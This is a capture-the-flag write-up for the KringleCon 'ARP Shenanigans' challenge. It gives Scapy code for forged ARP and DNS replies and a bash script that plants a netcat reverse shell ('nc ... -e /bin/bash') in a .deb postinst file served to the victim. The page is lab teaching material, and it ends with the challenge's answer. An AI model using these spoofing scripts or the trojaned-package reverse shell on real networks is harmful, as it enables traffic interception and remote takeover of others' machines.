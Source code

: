 # ARP Shenanigans

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [santamode-arp terminal](https://docker2020.kringlecon.com/?challenge=santamode-arp&id=475c8240-6269-4adb-88cf-3a6db20664fa)<br/>
**Terminal hint**: [Scapy Prepper](../hints/h9.md)


## Objective

!!! question "Request"
    Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

??? quote "Alabaster Snowball"
    It seems that some interloper here at the North Pole has taken control of the host.<br/>
    We need to regain access to some important documents associated with Kringle Castle.<br/>
    Maybe we should try a machine-in-the-middle attack?<br/>
    That could give us access to manipulate DNS responses.<br/>
    But we'll still need to cook up something to change the HTTP response.<br/>
    I'm sure glad you're here Santa.


## Hints

??? hint "Sniffy"
    Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.

??? hint "Embedy"
    The malware on the host does an HTTP request for a `.deb` package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98)

??? hint "Resolvy"
    Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.

??? hint "Spoofy"
    The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in `/home/guest/scripts`.


## Solution

Solving this challenge requires intercepting the network traffic coming from Jack's computer to trick the device into downloading a malicious `.deb` package installer containing a reverse shell back to our host. Python scripts (to help with intercepting the ARP and DNS requests) and sample `.deb` packages are provided but they're missing some key components.


### Spoof the ARP response

Start by running a packet capture to verify the traffic being received.

![Packet capture 1](../img/objectives/o9/packet_capture_1.png)

Update the provided [`arp_resp.py`](../artifacts/objectives/o9/arp_resp.py) script so it sends back an ARP response that tricks Jack's machine into thinking we are host 10.6.6.53. We do that by crafting an ARP response packet that has all field values filled out as they normally would, except for the source MAC address fields. Those should contain our MAC address instead (lines 2 and 11). 

```python linenums="1" hl_lines="2 11"
if ARP in packet and packet[ARP].op == 1:
    ether_resp = Ether(dst=packet[ARP].hwsrc, type=0x0806, src=macaddr)

    arp_response = ARP(pdst=packet[ARP].psrc)
    arp_response.op = 2
    arp_response.plen = 4
    arp_response.hwlen = 6
    arp_response.ptype = 0x0800
    arp_response.hwtype = 0x01

    arp_response.hwsrc = macaddr
    # we need to make it look as if this came from the original host, not us!
    arp_response.psrc = packet[ARP].pdst
    arp_response.hwdst = packet[ARP].hwsrc
    arp_response.pdst = packet[ARP].psrc
```

!!! info "Sample ARP pcap files"
    Sample ARP packet captures can be found in `~/pcaps/arp.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/d97c5b81b057).

Start a new packet capture and run the updated [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.

![Spoof ARP response](../img/objectives/o9/attack_1.png)

We successfully tricked Jack's machine into sending a DNS request for `ftp.osuosl.org` our way.

![Packet capture 2](../img/objectives/o9/packet_capture_2.png)


### Spoof the DNS response

Next, [craft a DNS response](https://www.securitynik.com/2014/05/building-your-own-tools-with-scapy.html) to trick Jack's hijacked machine into thinking *ftp.osuosl.org* is actually our host. In other words, force the DNS request for *ftp.osuosl.org* to resolve to our IP address. Update the provided [`dns_resp.py`](../artifacts/objectives/o9/dns_resp.py) script by changing `ipaddr_we_arp_spoofed` to *10.6.6.53* and add the missing DNS details to the `handle_dns_request()` function.

```python linenums="1"
def handle_dns_request(packet):
    eth = Ether(src=macaddr, dst=packet[Ether].src)     
    ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)  # swap ports

    dns = DNS(
        id=packet[DNS].id,
        qr=1,
        opcode=packet[DNS].opcode,
        aa=1,
        qdcount=packet[DNS].qdcount,
        ancount=1,
        qd=DNSQR(
            qname=packet[DNS].qd.qname,
            qtype=packet[DNS].qd.qtype,
            qclass=packet[DNS].qd.qclass
        ),
        an=DNSRR(
            rrname=packet[DNS].qd.qname,
            rdata=ipaddr,
            ttl=86400
        )
    )

    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
```

!!! info "Sample DNS pcap files"
    Sample DNS packet captures can be found in `~/pcaps/dns.pcap` and on [cloudshark.org](https://www.cloudshark.org/captures/0320b9b57d35).

Start a packet capture and run the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, followed by the [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script. 

![Spoof DNS response](../img/objectives/o9/attack_2.png)

Besides the ARP and DNS requests (and our spoofed responses), we're now capturing even more traffic from Jack's machine.

![Packet capture 3](../img/objectives/o9/packet_capture_3.png)

Running a simple Python web server using `python3 -m http.server 80` will tell us that Jack's hijacked machine is making a failed HTTP GET request to `/pub/jfrost/backdoor/suriv_amd64.deb`. Let's host a [malicious payload](http://www.wannescolman.be/?p=98) there. :smiling_imp:


### Create the payload

The best package candidate in `~/debs/` is probably `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` as it will install the `nc` binary we need to establish the [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) connection back to our machine. It also provides a `postinst` file where we can add the reverse shell command itself to make it execute as part of the package post-install process.

To help remove some of the tedious packaging and setup work create a [`prepare_package.sh`](../tools/objectives/o9/prepare_package.sh) script that unpacks `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` (lines 9-13), adds the `nc` reverse shell command to the `postinst` file (line 18), packages everything back up (line 20), creates the proper directory structure for the HTTP request to succeed (line 22), and start a Python web server to host the `.deb` file (line 27).

```bash linenums="1"
#!/usr/bin/bash
# Start at the right place
cd $HOME/debs/
# Unpack the deb package components
export MYDEB=netcat-traditional_1.10-41.1ubuntu1_amd64.deb 
mkdir packing
cd packing
cp ../$MYDEB .
dpkg -x $MYDEB work
mkdir -p work/DEBIAN
ar -x $MYDEB
tar -xf control.tar.xz ./control
tar -xf control.tar.xz ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
# Add the reverse shell command to postinst
export my_ip=`hostname -I`
echo "/bin/nc ${my_ip} 8888 -e /bin/bash" >> work/DEBIAN/postinst
# Build the package
dpkg-deb --build work/
# Create the path the rogue host is requesting
mkdir -p $HOME/web/pub/jfrost/backdoor/
# Move the malicious package file into place
mv work.deb $HOME/web/pub/jfrost/backdoor/suriv_amd64.deb
# Start the web server
cd $home/web/
python3 -m http.server 80
```


### Run the exploit

Now that all the required components are in place, open 3 additional Tmux windows (for a total of 4). One window should already be running the Python webserver. Use the remaining 3 windows to first start a netcat listener with `nc -nlvp 8888` that will accept the incoming reverse shell connection, then the updated [`dns_resp.py`](../tools/objectives/o9/dns_resp.py) script, and finally the modified [`arp_resp.py`](../tools/objectives/o9/arp_resp.py) script.

![Web server log](../img/objectives/o9/attack_3.png)

The hijacked host will be redirected to our web server, download the malicious `suriv_amd64.deb` file, install it, and open a reverse shell as part of the `.deb` package post-install process.

![Reverse shell](../img/objectives/o9/attack_4.png)

We now have access to the [`NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`](../artifacts/objectives/o9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) document.

!!! abstract "NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt"
    ...

    RESOLUTIONS:

    The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle.  Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.”  Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.”  Chairman Frost then noted, “But the additional traffic will be a burden on local residents.”  Dolly explained traffic projections were all in alignment with existing roadways.  Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’”  Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board.  Mrs. Nature made a motion to approve.  Seconded by Mr. Cornelius.  **Tanta Kringle** recused herself from the vote given her adoption of Kris Kringle as a son early in his life. 

    ...

!!! done "Answer"
    Tanta Kringle
